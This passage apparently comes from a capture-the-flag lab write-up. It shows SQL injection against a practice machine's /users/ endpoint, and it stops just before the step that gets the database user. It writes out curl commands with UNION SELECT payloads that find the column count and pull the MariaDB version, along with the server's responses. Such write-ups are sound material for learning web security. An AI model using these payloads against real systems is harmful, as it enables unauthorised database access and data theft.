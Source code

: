 ### SQLI

#### POC

If I add a `'` to the end of my url, I do get a 500 error:

![](/img/1541189342899.png)

I'll try a simple injection, and it works:

![](/img/1541189365505.png)

Next I'll check to see if I can use `UNION` to get data. First, I need
to figure out how many columns are being returned. Based on the json,
it's probably one, and I can confirm that:



    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%201;--%20-"
    {"username":"1"}

    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%201,1;--%20-"
    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
    <title>500 Internal Server Error</title>
    <h1>Internal Server Error</h1>
    <p>The server encountered an internal error and was unable to complete your request.  Either the server is overloaded or there is an error in the application.</p>



It works when I do `' union select 1;-- -`, but not when i do
`' union select 1,1;-- -`.

#### Enumeration

Now that I have union working, I'll enumerate the database. First, the
version (and using `jq` to isolate it, check out [my jq
post](/jq.md) if this is new to you):



    root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20version();--%20-" | jq .username
    "5.5.59-MariaDB-1~wheezy"



Now I'll get the database user and the current database:
